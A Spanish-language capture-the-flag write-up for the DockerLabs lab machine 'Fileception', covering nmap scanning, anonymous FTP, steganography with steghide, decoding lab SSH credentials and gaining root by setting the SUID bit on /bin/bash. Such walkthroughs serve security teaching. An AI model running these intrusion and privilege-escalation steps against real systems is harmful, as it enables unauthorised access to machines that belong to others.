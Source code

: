 # Máquina Fileception

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrw-rw-    1 ftp      ftp         75372 Apr 27 02:17 hello_peter.jpg [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 618f9189a70b8e17b7dd38e000045947 (ECDSA)
|_  256 8a152913ecaaf620cac880145605ec3b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos acceder con el usuario **anonymous** al servicio **ftp**, donde tan solo encontramos una imágen, que nos descargaremos:

```shell
ftp 172.17.0.2
Name (172.17.0.2:albertomarcostic): anonymous
----------------------
230 Login successful.
```

```shell
ftp> ls
----------------------
-rwxrw-rw-    1 ftp      ftp         75372 Apr 27 02:17 hello_peter.jpg
```

```shell
ftp> get hello_peter.jpg
----------------------
226 Transfer complete.
75372 bytes received in 0.00 secs (205.3724 MB/s)
```

Echamos un vistazo a la web principal.
En el código fuente encontramos un comentario con un pista:

![Pasted image 20240427192722](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/eadca9bf-a0b2-4b2a-a6a0-de06d6dfa0e5)

```
@UX=h?T9oMA7]7hA7]:YE+*g/GAhM4
```

--------------
## Explotación

Tras probar con varios tipos como base64,32,etc. Conseguimos decodificar la clave con **base85**.
Podemos usar cualquiera página web.

La clave decodificada es -> "**base_85_decoded_password**"

----------------

Usaremos la herramienta **steghide** para ver si hay algo escondido dentro de la imagen descargada anteriormente:
Nos pide un salvoconducto o contraseña, así que probamos a usar la clave que hemos decodificado antes:

```shell
steghide --extract -sf hello_peter.jpg
Anotar salvoconducto: (introducimos la clave -> base_85_decoded_password)
----------------------------------------------------------------------------
anot los datos extrados e/"you_find_me.txt".
```

Obtenemos un archivo **you_find_me.txt**:

Al abrirlo, encontramos el siguiente contenido:

![Pasted image 20240427200214](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/9d5f18d8-6684-4227-bf25-911b2e71bb0c)

Haciendo un poco de búsqueda en google, se trata de un tipo de lenguaje de programación esotérico.
Lo intentamos interpretar con alguna web y obtenemos la siguiente cadena de texto:

![Pasted image 20240427202355](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/864f867b-401c-4417-996a-5bd914ecbfd3)

```
9h889h23hhss2
```

Probamos esta cadena como un directorio de la web pero no funciona. La probamos como el usuario **peter** por **ssh**

```
ssh peter@172.17.0.2
```

Estamos dentro !

------------
## Escalada de privilegios

Al acceder encontramos una nota importante:

```shell
cat nota_importante.txt 
-----------------------------------
NO REINICIES EL SISTEMA!!

HAY UN ARCHIVO IMPORTANTE EN TMP
```

Accedemos al directorio **/tmp** donde hay mas archivos:

```shell
cat recuerdos_del_sysadmin.txt 
------------------------------------------------
Cuando era niño recuerdo que, a los videos, para pasarlos de flv a mp4, solo cambiaba la extensión. Que iluso.
```

Encontramos otro archivo **importante_octopus.odt**
Nos lo descargamos en la máquina atacante con **scp**.

```shell
scp peter@172.17.0.2:/tmp/importante_octopus.odt ./
```

Probamos a cambiarle las extensiones, txt, sh, tar, zip, etc. Para ver como se comporta.
Tras varios intentos, con **zip**, al descomprimirlo, obtenemos varios archivos.

```shell
mv importante_octopus.odt importante_octopus.zip
```

Entre ellos un **leerme-xml**.

```shell
cat leerme.xml
-------------------------------
Decirle a Peter que me pase el odt de mis anécdotas, en caso de que se me olviden mis credenciales de administrador... Él no sabe de Esteganografía, nunca sé lo imaginaria esto.

usuario: octopus
password: ODBoMjM4MGgzNHVvdW8zaDQ=
```

Obtenemos las credenciales del user **octopus**, pero parece que su contraseña es **base64**, así que la decodificamos:

```shell
echo "ODBoMjM4MGgzNHVvdW8zaDQ=" | base64 -d; echo
-----------------------------------------------------
80h2380h34uouo3h4
```

Nos conectamos como el usuario **octopus** por ssh -> **octopus:80h2380h34uouo3h4**

```ssh
ssh octopus@172.17.0.2
```

Ejecutamos **sudo -l** para ver si podemos ejecutar algo como root:

```shell
sudo -l
--------------------
User octopus may run the following commands on 154c6f2b3e10:
    (ALL) NOPASSWD: ALL
    (ALL : ALL) ALL
```

Podemos ejecutar cualquier cosa como root:

```shell
sudo chmod u+s /bin/bash
bash -p
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximos en la máquina !
